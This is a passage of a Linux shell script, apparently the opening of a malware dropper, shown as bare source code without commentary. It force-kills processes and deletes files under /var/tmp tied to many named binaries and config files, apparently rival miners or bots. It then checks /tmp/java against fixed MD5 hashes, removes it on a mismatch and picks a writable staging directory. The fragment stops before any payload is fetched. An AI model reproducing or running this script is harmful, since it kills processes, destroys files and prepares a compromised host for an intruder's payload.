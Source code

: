 ```
rm -rf /var/tmp/hh1
pkill -f hh1.conf
pkill -f apaqi
rm -rf /var/tmp/apaqi
pkill -f dajiba
rm -rf /var/tmp/dajiba

pkill -f /var/tmp/look
rm -rf /var/tmp/look
pkill -f /var/tmp/nginx
rm -rf /var/tmp/nginx
rm -rf /var/tmp/dd
rm -rf /var/tmp/dd1
rm -rf /var/tmp/apple
pkill -f dd1.conf
pkill -f kkk1.conf
pkill -f ttt1.conf
pkill -f ooo1.conf
pkill -f ppp1.conf
pkill -f lll1.conf
pkill -f yyy1.conf
pkill -f 1111.conf
pkill -f 2221.conf
pkill -f dk1.conf
pkill -f kd1.conf
pkill -f mao1.conf
pkill -f YB1.conf
pkill -f 2Ri1.conf
pkill -f 3Gu1.conf

pkill -f crant
DIR="/tmp"
if [ -a "/tmp/java" ]
then
    if [ -w "/tmp/java" ] && [ ! -d "/tmp/java" ]
    then
        if [ -x "$(command -v md5sum)" ]
        then
            sum=$(md5sum /tmp/java | awk '{ print $1 }')
            echo $sum
            case $sum in
                71849cde30470851d1b2342ba5a5136b | b00f4bbd82d2f5ec7c8152625684f853)
                    echo "Java OK"
                ;;
                *)
                    echo "Java wrong"
                    rm -rf /tmp/java
                    pkill -f w.conf
                    sleep 4
                ;;
            esac
        fi
        echo "P OK"
    else
        DIR=$(mktemp -d)/tmp
        mkdir $DIR
        echo "T DIR $DIR"
    fi
else
    if [ -d "/var/tmp" ]
    then
        DIR="/var/tmp"
    fi
```